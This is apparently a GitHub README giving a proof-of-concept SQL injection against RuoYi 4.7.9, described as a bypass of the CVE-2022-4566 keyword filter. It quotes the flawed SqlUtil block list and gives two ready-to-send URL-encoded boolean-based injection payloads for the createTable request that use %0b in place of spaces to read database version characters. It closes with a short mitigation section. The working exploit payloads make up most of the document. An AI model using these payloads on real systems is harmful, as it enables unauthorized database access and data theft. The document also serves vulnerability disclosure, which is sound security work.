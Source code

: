 # Ruoyi-4.7.9-SQL-Injection-PoC
## Introduction
This is a bypass of CVE-2022-4566, due to insufficient validation in `ruoyi-common/src/main/java/com/ruoyi/common/utils/sql/SqlUtil.java` . The regex can be bypass by using `%0b` instead of spaces, this results in SQL Injection.

```java
public class SqlUtil
{
    /**
     * 定义常用的 sql关键字
     */
    public static String SQL_REGEX = "and |extractvalue|updatexml|sleep|exec |insert |select |delete |update |drop |count |chr |mid |master |truncate |char |declare |or |union |like |+|/*|user()";
    public static void filterKeyword(String value)
    {
        if (StringUtils.isEmpty(value))
        {
            return;
        }
        String[] sqlKeywords = StringUtils.split(SQL_REGEX, "\\|");
        for (String sqlKeyword : sqlKeywords)
        {
            if (StringUtils.indexOfIgnoreCase(value, sqlKeyword) > -1)
            {
                throw new UtilException("参数存在SQL注入风险");
            }
        }
    }
}
```
## Steps to reproduce Boolean SQL Injection
1. Log in as admin
2. Send createTable request   
   a. Inject a TRUE query: `sql=CREATE%20table%20j2iz96_666%20as%20SELECT%0b111%20FROM%20sys_job%20WHERE%201%3d0%20AND%0bIF(ascii(substring((select%0b%40%40version)%2c18%2c1))%3d45%2c%201%2c%201%2f0)%3b`
   ![true-query](https://github.com/user-attachments/assets/56d95c1b-409e-4bdc-8247-beabb2dadeae)
   b. Inject a FALSE query: `sql=CREATE%20table%20j2iz96_665%20as%20SELECT%0b111%20FROM%20sys_job%20WHERE%201%3d0%20AND%0bIF(ascii(substring((select%0b%40%40version)%2c5%2c1))%3d44%2c%201%2c%201%2f0)%3b`
   ![false-query](https://github.com/user-attachments/assets/308fba92-18b8-44ce-befa-584e5265cdae)
**Caution**:  Need to change tablename in the CREATE query after every successful query.

## Advisory
1. Filter the `%0b` character.
2. Filter keyword `select` instead of `select ` (remove the ending space)
3. Update CMS to the newest version of Ruoyi CMS


